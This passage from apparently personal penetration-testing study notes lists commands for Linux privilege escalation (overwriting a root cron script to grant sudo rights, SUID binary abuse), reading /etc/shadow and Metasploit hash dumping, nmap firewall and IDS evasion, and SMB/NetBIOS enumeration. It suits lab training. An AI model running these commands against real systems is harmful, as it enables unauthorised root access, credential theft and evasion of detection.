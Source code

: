```
cat /etc/shadow
```

**Exploiting misconfigured cron jobs**
Find cron jobs scheduled by the root user
```
crontab -l
cd /
grep -rnw /usr -e "/home/student/message"
cat /tmp/message
ls -al /usr/local/share/copy.sh

printf '#!/bin/bash\necho "student ALL=NOPASSWD:ALL" >> /etc/sudoers' > /usr/local/share/copy.sh
sudo -l
```

**Exploiting SUID binaries**
Factors: SUIB binary owned by root user, and access to execute binary.
```
file welcome
strings
rm greetings
cp /bin/bash greetings
```

### Linux Credential Dumping
**Dumping Linux password hashes**
Determine hashing algorithm by the dollar symbol.
```
> Exploit with msf
sessions -u 1
cat /etc/shadow

search hashdump
```

# Network-Based Attacks
### Networking
**Firewall detection & IDS evasion**
```
> Detect the presence of a firewall (filtered)
nmap -Pn -sA -p445,3389 1.1.1.1
> Fragmentation 
nmap -Pn -sS -sV -p80,445,3389 -f --mtu 8 1.1.1.1
> Decoy as gateway IP with custom port (DNS server 53)
nmap -Pn -sS -sV -p80,445,3389 -f --data-length 200 -g 53 -D 1.1.1.1 1.1.1.88
```

### Network attacks
**SMB & NetBIOS enumeration**
- NetBIOS is an API. Name service, datagram service and session service. Typically ports 137, 138 and 139 over UDP and TCP.
- SMB is network file sharing protocol. Inter-process communication (IPC). SMB v1, v2.0/2.1, v3.0+
- Generally port 445 and port 139.
- Modern networks use DNS instead of NetBIOS, but often enabled together for backward compatibility.
```
nbtscan 1.1.1.0/20
nmblookup -A 1.1.1.1
nmap -sU -p 137 1.1.1.1
nmap -sU -sV -T4 --script nbstat.nse -p137 -Pn -n 1.1.1.1
> None of the above works?

```